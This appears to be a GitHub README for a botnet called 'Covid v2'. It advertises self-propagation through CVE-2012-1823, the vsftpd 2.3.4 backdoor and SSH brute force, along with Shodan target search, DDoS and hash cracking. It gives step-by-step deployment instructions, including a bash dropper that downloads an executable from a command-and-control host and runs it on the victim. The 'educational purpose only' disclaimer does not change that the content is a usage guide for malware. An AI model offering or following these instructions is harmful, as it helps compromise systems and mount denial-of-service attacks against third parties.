

# Covid v2 Botnet

***Disclamer: this botnet is for educational purpose only!***

**What can it do?**
- attack targets by a list
- attack targets on local network with a scanner
- spread through CVE-2012-1823 (php-cgi Argument Injection)
- spread through CVE-2011-2523 (vsftpd 2.3.4 backdoor)
- spread through SSH Brute Force
- search targets on shodan
- ddos spesific target (basic one with stop option)
- recognize a given hash and crack it using a word list
- save bots and targets lists into json file



**How to use?**

1. download the project

2. configure the cnc_ip on client.py and server.py

3. add shodan api token

4. create an installation file to make the target get infected and configure it on server.py and client.py
for example:

use a python compiler to compile client.py
create the bash script that downloads the compiled file and runs it:
```
#!/bin/bash
cnc_ip="your cnc"
executable="created executable with python compiler"
wordlist="your configured wordlist location"
wget http://$cnc_ip/$executable
wget http://$cnc_ip/$wordlist
chmod 777 $executable
./$executable
```
configure the bash file name under executable in server.py and client.py

5. run the server.py and attack your targets!

**Attack example:**

the attack is used on 3 local ips:
 
- 192.168.10.16 - Vunerable to CVE-2012-1823

- 192.168.10.18 - Vunerable to SSH Brute Force

- 192.168.10.20 - Vunerable to CVE-2011-2523


**Hash cracking example**

the cracking is used on 3 infected bots and tries to crack md5 hash of "admin"


